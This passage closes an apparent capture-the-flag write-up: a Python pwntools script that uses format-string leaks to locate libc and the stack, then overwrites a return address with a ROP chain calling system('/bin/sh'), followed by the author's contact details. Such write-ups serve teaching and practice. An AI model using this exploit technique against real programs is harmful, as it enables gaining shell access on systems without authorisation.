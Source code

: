 ```py

libc.address = int(fsb_leaks[1], 16) - 0x114992

stack = int(fsb_leaks[-2], 16)
ret_address = stack - 0x340 

POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0] 
BINSH = next(libc.search(b"/bin/sh"))
RET = (rop.find_gadget(['ret']))[0] 

writes = {ret_address: POP_RDI+libc.address , ret_address+0x8: BINSH, ret_address+0x10: libc.address+RET, ret_address+0x18: libc.sym.system}

payload = fmtstr_payload(7, writes)
write(payload)

p.interactive()
```




## Appendix

The challegnes were really fun, I just wished that they were a bit harder. I am glad I was able to solo them for my team!

If you have any question regarding the above solutions, you can DM me via my [Twitter](https://x.com/itaybel) or my `Discord` (itaybel).